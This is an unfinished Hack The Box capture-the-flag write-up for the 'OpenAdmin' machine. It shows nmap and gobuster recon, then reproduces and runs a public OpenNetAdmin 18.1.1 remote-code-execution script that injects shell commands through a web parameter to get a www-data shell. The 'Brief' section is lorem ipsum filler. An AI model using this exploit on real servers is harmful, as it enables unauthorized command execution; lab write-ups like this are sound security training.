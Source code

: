```yaml
---
title: OpenAdmin Writeup
date: 2020-11-06 00:38:56 -0100
categories: [HTB, retired]
published: false
tags: [writeup]

---
```


[![Banner](https://raw.githubusercontent.com/0xsyr0/0xsyr0.github.io/master/assets/img/htb/openadmin/openadmin_info_card.jpg)](https://www.hackthebox.eu/home/machines/profile/222)

# Information@openadmin:~$

| Column                       | Detail           |
|:-----------------------------|:-----------------|
| Name                         | OpenAdmin        |
| IP                           | 10.10.10.171     |
| Points                       | 20               |
| OS                           | Linux            |
| Difficulty                   | Easy             |
| Creator                      | [dmw0ng](https://www.hackthebox.eu/home/users/profile/82600) |
| Released on                  | 4 Jan 2020       |
| Retired on                   | 2 May 2020       |

# Brief@openadmin:~$

Lorem ipsum dolor sit amet consectetur adipiscing elit sem lacinia ultricies senectus, sapien hendrerit montes hac non bibendum nec mi suscipit accumsan. Himenaeos semper dignissim dictum netus feugiat magna dictumst, blandit non pellentesque hac lacus tristique, dui egestas conubia parturient morbi dis. Dis lacinia auctor neque metus ad nisi felis vitae hac torquent, tempor et vestibulum molestie dapibus natoque sed suspendisse ullamcorper parturient, tristique proin elementum tortor pretium nullam magnis in cras.

Nulla aptent sociosqu vivamus pellentesque donec senectus venenatis, elementum mollis nam augue vulputate vel, himenaeos mus erat dui blandit mi. Parturient rhoncus at tincidunt conubia taciti feugiat metus auctor, curae integer congue elementum mi nulla mattis, facilisi placerat magnis suscipit tristique lectus dapibus. Cubilia potenti platea viverra pulvinar malesuada sagittis sodales mauris quis, sociis parturient a penatibus odio duis molestie venenatis hendrerit praesent, fames vel cras vitae nam turpis montes quisque.

# Summary

# Recon

## Nmap

```shell
$ sudo nmap -sC -sV -oA nmap 10.10.10.171
Starting Nmap 7.80 ( https://nmap.org ) at 2020-04-25 18:28 CEST
Nmap scan report for 10.10.10.171
Host is up (0.11s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4b:98:df:85:d1:7e:f0:3d:da:48:cd:bc:92:00:b7:54 (RSA)
|   256 dc:eb:3d:c9:44:d1:18:b1:22:b4:cf:de:bd:6c:7a:54 (ECDSA)
|_  256 dc:ad:ca:3c:11:31:5b:6f:e6:a4:89:34:7c:9b:e5:50 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 22.86 seconds
```

We notice that port `22/tcp` and port `80/tcp` are open.

## Gobuster

```shell
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.10.10.171/
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.171/
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/04/25 18:51:23 Starting gobuster
===============================================================
/music (Status: 301)
/artwork (Status: 301)
```

Let's check the found directories. I started with `/music`.

> http://10.10.10.171/music

After clicking on `login` i got redirected.

> http://10.10.10.171/ona/



> https://www.exploit-db.com/exploits/47691

```bash
# Exploit Title: OpenNetAdmin 18.1.1 - Remote Code Execution
# Date: 2019-11-19
# Exploit Author: mattpascoe
# Vendor Homepage: http://opennetadmin.com/
# Software Link: https://github.com/opennetadmin/ona
# Version: v18.1.1
# Tested on: Linux

# Exploit Title: OpenNetAdmin v18.1.1 RCE
# Date: 2019-11-19
# Exploit Author: mattpascoe
# Vendor Homepage: http://opennetadmin.com/
# Software Link: https://github.com/opennetadmin/ona
# Version: v18.1.1
# Tested on: Linux

#!/bin/bash

URL="${1}"
while true;do
 echo -n "$ "; read cmd
 curl --silent -d "xajax=window_submit&xajaxr=1574117726710&xajaxargs[]=tooltips&xajaxargs[]=ip%3D%3E;echo \"BEGIN\";${cmd};echo \"END\"&xajaxargs[]=ping" "${URL}" | sed -n -e '/BEGIN/,/END/ p' | tail -n +2 | head -n -1
done
```

```console
$ wget https://www.exploit-db.com/raw/47691
```


```console
$ chmod +x 47691.sh
```

```shell
./47691.sh http://10.10.10.171/ona/
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```


# Resources

<https://www.exploit-db.com/exploits/47691>
